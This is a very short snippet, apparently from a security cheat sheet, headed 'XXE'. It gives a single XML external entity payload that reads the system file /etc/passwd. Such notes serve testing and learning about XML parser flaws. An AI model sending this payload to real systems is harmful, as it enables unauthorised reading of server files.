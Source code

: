 # XXE
XML external entities:

```
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
```

